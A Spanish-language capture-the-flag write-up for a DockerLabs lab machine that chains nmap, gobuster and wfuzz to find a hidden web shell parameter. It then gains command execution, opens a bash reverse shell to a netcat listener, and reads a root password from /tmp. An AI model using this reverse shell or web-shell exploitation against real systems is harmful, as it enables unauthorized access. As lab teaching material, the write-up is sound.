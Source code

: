 # DockerLabs - WhereIsMyWebShell

## Información General

- **Nombre del CTF:** DockerLabs
- **Categoría:** Explotación web
- **Dificultad:** Media
- **Fecha:** 23/01/2025

## Descripción del Desafío

El desafío **WhereIsMyWebShell** plantea un entorno donde el objetivo es descubrir y explotar una vulnerabilidad en un servidor web para subir o localizar una **web shell**, ganando acceso remoto al sistema. 

## Solución

### 1. Despliegue de la máquina

Como es de esperar, primero ejecutaremos el script proporcionado junto con la máquina para desplegar el laboratorio. Nos aparecerá un mensaje informándonos de la IP utilizada por la máquina vulnerable, que en este caso corresponde con la `192.168.100.2`.

```bash
sudo bash auto_deploy.sh whereismywebshell.tar
```

### 2. Análisis de vulnerabilidades

Comenzamos con un escaneo básico del servidor para identificar servicios activos:

```bash
nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.100.2
```

- `-p-`: Escanea todos los puertos disponibles (de 1 a 65535).
- `-sS`: Realiza un escaneo SYN (también conocido como escaneo "sigiloso" o "half-open"), que es más rápido y menos detectable en comparación con un escaneo completo de conexiones TCP.
- `-sC`: Ejecuta scripts predeterminados de Nmap (Nmap Scripting Engine) que proporcionan información adicional sobre los servicios detectados, como versiones y posibles vulnerabilidades.
- `-sV`: Detecta la versión de los servicios que se están ejecutando en los puertos abiertos.
- `--min-rate`: Establece una tasa mínima de envío de paquetes, en este caso de 5000 paquetes por segundo, lo que acelera el escaneo.
- `-n`: Desactiva la resolución de nombres DNS, lo que evita que Nmap intente resolver las direcciones IP a nombres de dominio, lo que mejora la velocidad del escaneo.
- `-vvv`: Establece un nivel de verborrea máximo, proporcionando información detallada sobre lo que Nmap está haciendo en cada paso del escaneo.
- `-Pn`: Desactiva el ping previo al escaneo, lo que significa que Nmap no hará un "ping" para verificar si el host está activo antes de realizar el escaneo de puertos. Esto es útil cuando el objetivo puede estar bloqueando pings o para escanear máquinas sin respuesta a los pings.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/1.png)

**Resultados del escaneo:**

- Puerto 80 abierto: Servidor HTTP.

#### Análisis del servicio HTTP

Abrimos el navegador y accedemos a `http://192.168.100.2`. Allí encontramos una página web simple, y al final de la misma, un consejo dejado por su creador recomendándonos explorar el directorio "/tmp". Usamos la herramienta `gobuster` para enumerar directorios ocultos (requiere instalación previa):

```bash
gobuster dir -u http://192.168.100.2 -w /usr/share/wordlists/directory-list-2.3-medium.txt -x txt,html,php,py,sh
```

- `gobuster`: Es la herramienta que se utiliza para realizar la enumeración de directorios y archivos en un servidor web.
- `dir`: Indica que el modo de operación es búsqueda de directorios y archivos.
- `-u`: Especifica la URL del servidor web que se está escaneando.
- `-w`: Define el archivo de lista de palabras que contiene posibles nombres de directorios y archivos a buscar en el servidor. En este caso, se utilizaremos una lista estándar con nombres comunes.
- `-x`: Define las extensiones de archivos que se probarán para cada entrada en la lista de palabras. 

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/2.png)

**Resultados relevantes:**

- `shell.php`
- `warning.html`

### 3. Explotación

Inspeccionamos el archivo `warning.html` y encontramos lo siguiente:

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/3.png)

Al intentar acceder a `shell.php`, no obtenemos ninguna respuesta visible. Esto sugiere que el archivo está esperando un parámetro específico para ejecutar comandos, algo similar a:

```bash
http://192.168.100.2/shell.php?[parametro]=whoami
```

Nuestro objetivo es descubrir cuál es ese parámetro desconocido. Para ello, utilizaremos **wfuzz** y probaremos diferentes nombres de parámetros extraídos de un diccionario común.

```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=whoami"
```

- `wfuzz`: Herramienta utilizada para realizar fuzzing en aplicaciones web.
- `-c`: Habilita la salida en color para facilitar la lectura de los resultados.
- `--hl=0`: Filtra las respuestas basándose en la longitud del contenido. En este caso, muestra solo las respuestas cuya longitud es diferente de 0 (útil para evitar respuestas vacías o irrelevantes).
- `-t 200`: Configura 200 hilos de ejecución en paralelo, acelerando significativamente el proceso.
- `-w`: Especifica el diccionario de palabras que se utilizará. Este diccionario contiene una lista de posibles nombres de parámetros o directorios.
- `-u "http://172.17.0.2/shell.php?FUZZ=whoami"`: Define la URL objetivo. La palabra clave `FUZZ` será reemplazada por cada palabra del diccionario. El parámetro reemplazado (`FUZZ`) se utilizará para intentar ejecutar el comando `whoami`.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/4.png)

La ejecución del comando nos devuelve como resultado el parámetro "parameter". Esto sugiere que hemos encontrado el parámetro correcto. Procedemos a verificarlo directamente en la web, y confirmamos que efectivamente hemos conseguido un **RCE** (Ejecución Remota de Comandos).

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/5.png)

Ahora crearemos redactaremos una línea de código para ejecutar una **Reverse Shell** y ganar así acceso a la máquina. Nos dirigimos al sitio web: https://tex2e.github.io/reverse-shell-generator/index.html

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/6.png)

```bash
bash -i >& /dev/tcp/192.168.100.1/4444 0>&1
```

Abrimos Burpsuite y utilizamos su "Encoder" para codificar el comando en `URL`, modificándolo ligeramente:

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/7.png)

Ponemos la máquina en modo escucha con la siguiente orden:

```bash
nc -nlvp 4444
```

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/8.png)

Colocamos el resultado en la URL justo detrás del parámetro y se nos abrirá una shell en la terminal.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/9.png)

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/10.png)


### 4. Escalada de Privilegios

Una vez dentro, nos dirigimos al directorio "/tmp", ya que en el sitio web nos aconsejaron visitarlo. Listamos el contenido del mismo con `ls -la` para que mostrar también los archivos ocultos y encontramos un fichero llamado `secret.txt`. Lo visualizamos con `cat` y obtenemos la contraseña del usuario root. 

¡Hemos tomado el control de la máquina!

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/11.png)

## Lecciones Aprendidas

- La enumeración de directorios y análisis manual son esenciales en desafíos web. Elegir un buen diccionario es clave para extraer un parámetro, aunque el proceso puede alargarse cuanto más palabras contenga este.
- Es importante validar y sanitizar los parámetros en PHP a fin de limitar el rango de opciones esperadas, evitando así la ejecución remota de comandos.

## Recursos

- [Documentación oficial de PHP](https://www.php.net/)
- [Herramientas utilizadas: Nmap, Gobuster...](https://github.com/tools)
